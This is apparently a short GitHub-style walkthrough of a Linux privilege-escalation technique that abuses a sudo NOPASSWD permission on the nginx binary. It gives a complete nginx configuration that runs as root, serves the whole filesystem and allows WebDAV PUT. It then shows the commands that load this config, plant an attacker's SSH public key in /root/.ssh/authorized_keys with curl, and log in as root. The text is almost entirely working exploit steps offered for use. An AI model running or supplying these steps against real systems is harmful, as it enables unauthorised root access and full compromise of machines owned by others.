 **The Nginx binary needs to be set with sudo permissions for this to work**

* Check sudo permissions with `sudo -l`
	* you should see something similar to this:
```bash
User user may run the following commands on host:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
* If this is set you can begin with creating an nginx configuration file
	* The configuration file will be hosted using nginx as the root user for us to call to later
```nginx conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 1339;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
```
* Save this as a `.conf` file and upload/save it to the box you are exploiting
	* depending on the type of shell that you have, uploading this to a self hosted web server and curling for it may be the easiest option
* Load the configuration file to nginx with `sudo nginx -c /tmp/nginx_pwn.conf`
* Then, generate yourself a pair of ssh keys using `ssh-keygen`
	* This will be how we authenticate to the root user
* Upload the public key to the newly spun up nginx webserver with:
```bash
curl -X PUT localhost:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"
```
* Finally, ssh into the root user of the box